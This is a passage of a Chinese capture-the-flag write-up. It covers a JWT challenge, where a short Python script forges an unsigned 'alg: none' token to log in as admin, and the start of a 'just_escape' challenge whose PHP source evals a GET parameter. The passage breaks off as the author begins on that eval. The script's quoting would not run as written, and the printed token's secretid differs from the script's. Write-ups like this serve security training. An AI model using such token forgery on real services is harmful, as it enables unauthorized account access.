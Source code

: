 [![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JMwohF.png)

可以让`secectid`为`0.1`来进行绕过。

先注册一个账号，抓取一下jwt进行解密。。[jwt解密链接](https://jwt.io/)

[![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JM0eN8.png)

网站上的不能将`alg`设置为`none`，用脚本进行加密：

```
#encoding=utf-8
import base64

def b64urlencode(data):
    return base64.b64encode(data).replace('+', '-').replace('/', '_').replace('=', '')

print b64urlencode("{"typ":"JWT","alg":"none"}") + 
      '.' + b64urlencode("{"secretid":"0.1","username":"admin","password":"123456"}") + '.'
```

脚本生成jwt加密字符串`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6IjAuMDEiLCJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYifQ.`

然后尝试admin登陆，进行抓包：

[![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JM0u9g.png)

发现登陆成功，放包

[![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JM03Bq.png)

发现成功使用admin登陆了，然后点击getflag发现没有反应。。<br>
然后再次抓包得到flag..

[![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JM0YNT.png)



## just_escape

打开页面发现：

[![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JM0DD1.png)

访问`run.php`得到源码：

```
&lt;?php
if( array_key_exists( "code", $_GET ) &amp;&amp; $_GET[ 'code' ] != NULL ) {
    $code = $_GET['code'];
    echo eval(code);
} else {
    highlight_file(__FILE__);
}
?&gt;
```

天真的我，以为是php命令执行绕过。。。
